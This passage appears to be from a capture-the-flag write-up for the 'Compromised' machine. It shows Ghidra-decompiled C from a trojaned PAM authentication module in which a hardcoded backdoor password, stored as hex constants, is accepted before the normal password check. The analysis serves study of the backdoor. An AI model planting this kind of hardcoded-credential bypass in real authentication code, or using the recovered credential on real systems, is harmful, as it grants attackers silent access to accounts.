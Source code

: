 ![Function references](/assets/htb/Compromised/ghidra/function_references.png)

Seems like the function is called 3-times. Let us look at the first call:

```c
int pam_sm_authenticate(pam_handle_t *pamh,int flags,int argc,char **argv)
{
  ulong uVar1;
  uint ctrl;
  int ret_cmp;
  int ret_val;
  char *prompt1;
  int *__ptr;
  uint uVar2;
  long in_FS_OFFSET;
  char *name;
  void *password;
  char backdoor [15];
  
  [...]
                    /* ? Check if user exists */
  ret_cmp = pam_get_user(pamh,&name,0);
  if (ret_cmp == 0) {
    if ((name != (char *)0x0) && ((*name - 0x2bU & 0xfd) != 0)) {
                    /* ? Check if user has blank password */
      ret_val = _unix_blankpasswd(pamh,ctrl,name);
      if (ret_val == 0) {
        prompt1 = (char *)dcgettext("Linux-PAM","Password: ",5);
        ret_cmp = _unix_read_password(pamh,ctrl,(char *)0x0,prompt1,(char *)0x0,"-UN*X-PASS",&password);
        if (ret_cmp == 0) {
                    /* Backdoor password */
          backdoor._0_8_ = 0x4533557e656b6c7a;
          backdoor._8_7_ = 0x2d326d3238766e;
          ret_cmp = strcmp((char *)password,backdoor);
                    /* ? If password is not backdoor-pw use verify-password */
          if (ret_cmp != 0) {
            ret_cmp = _unix_verify_password(pamh,name,(char *)password,ctrl);
          }
          password = (void *)0x0;
        }
        else {
          if (ret_cmp == 0x1e) {
            ret_cmp = 0x1f;
          }
```